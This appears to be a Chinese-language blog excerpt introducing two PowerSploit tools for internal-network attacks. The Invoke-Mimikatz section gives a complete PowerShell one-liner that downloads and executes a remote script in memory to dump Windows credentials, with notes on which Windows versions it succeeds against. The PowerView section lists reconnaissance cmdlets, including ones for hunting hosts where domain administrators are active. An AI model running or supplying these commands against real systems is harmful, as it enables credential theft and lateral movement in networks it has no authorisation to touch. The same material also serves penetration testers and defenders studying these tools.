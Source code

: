 #### [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) 

描述：使用Powershell执行Mimikatz来完成凭证的盗取和注入，伪造票据等

作用：凭证盗用和重放，权限维持

作者：Joseph Bialek（@ clymb3r）

```text
powershell -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201009153119790.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**注意：** 

**该命令在win2008执行会因版本低而无法执行，在win2016执行会被AppLocker强制实施受约束。成功的测试为win2012**

![](https://img-blog.csdnimg.cn/20201009153029828.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


![](https://img-blog.csdnimg.cn/20201009153044445.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


#### [**PowerView**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) 

**描述：Powershell的内网信息收集工具，现已集成到**PowerSploit  


**作用：信息收集**

**作者：**Will Harmjoy（@ HarmJ0y）  


使用也有文章介绍:  


参考：  


[PowerView介绍](https://blog.csdn.net/prettyX/article/details/103874602)

```text
Get-NetDomain            获取当前用户所在的域名称
Get-NetUser              返回所有用户详细信息
Get-NetDomainController  获取所有域控制器
Get-NetComputer          获取所有域内机器详细信息
Get-NetOU                获取域中OU信息
Get-NetGroup             获取所有域内组和组成员信息
Get-NetFileServer        根据SPN获取当前域使用的文件服务器
Get-NetShare             获取当前域内所有网络共享
Get-NetSession           获取在指定服务器存在的Session信息
Get-NetRDPSession        获取在指定服务器存在的远程连接信息
Get-NetProcess           获取远程主机的进程信息
Get-UserEvent            获取指定用户日志信息
Get-ADObject             获取活动目录的对象信息
Get-NetGPO               获取域所有组策略对象
Get-DomainPolicy         获取域默认或域控制器策略
Invoke-UserHunter        搜索网络中域管理员正在使用的主机
Invoke-ProcessHunter     查找域内所有机器进程用于找到某特定用户
```
